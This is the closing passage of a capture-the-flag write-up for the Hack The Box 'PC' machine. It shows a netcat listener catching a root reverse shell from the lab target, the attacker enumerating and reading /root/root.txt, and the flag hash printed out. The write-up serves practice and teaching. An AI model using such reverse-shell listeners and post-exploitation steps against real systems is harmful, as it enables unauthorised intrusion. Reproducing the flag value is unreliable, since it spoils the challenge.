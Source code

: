 Lets see the root flag now →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/PC]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.151] from (UNKNOWN) [10.10.11.214] 60142
bash: cannot set terminal process group (1047): Inappropriate ioctl for device
bash: no job control in this shell
root@pc:~/.pyload/data# whoami
whoami
root
root@pc:~/.pyload/data# id
id
uid=0(root) gid=0(root) groups=0(root)
root@pc:~/.pyload/data# ls -al
ls -al
total 44
drwxr-xr-x 2 root root  4096 Sep 22 13:21 .
drwxr-xr-x 7 root root  4096 Jan 11  2023 ..
-rw-r--r-- 1 root root     1 Jan 11  2023 db.version
-rw------- 1 root root 28672 Sep 22 13:21 pyload.db
root@pc:~/.pyload/data# cd /root
cd /root
root@pc:~# ls -al
ls -al
total 68
drwx------  7 root root  4096 Apr 27 15:32 .
drwxr-xr-x 21 root root  4096 Apr 27 15:23 ..
lrwxrwxrwx  1 root root     9 Jan 11  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root  3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root  4096 Apr  4 10:25 .cache
drwxr-xr-x  3 root root  4096 Apr  4 10:25 .local
-rw-r--r--  1 root root   161 Dec  5  2019 .profile
drwxr-xr-x  7 root root  4096 Jan 11  2023 .pyload
-rw-------  1 root root  3203 Apr 27 15:32 .viminfo
drwxr-xr-x  3 root root  4096 Apr 27 13:15 Downloads
-rw-r-----  1 root root    33 Sep 22 13:22 root.txt
drwx------  3 root root  4096 Jan 11  2023 snap
-rw-r--r--  1 root root 24576 Jan 11  2023 sqlite.db.bak
root@pc:~# cat root.txt	
cat root.txt
7ebed784803fa34de62f3c472840012d
root@pc:~#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }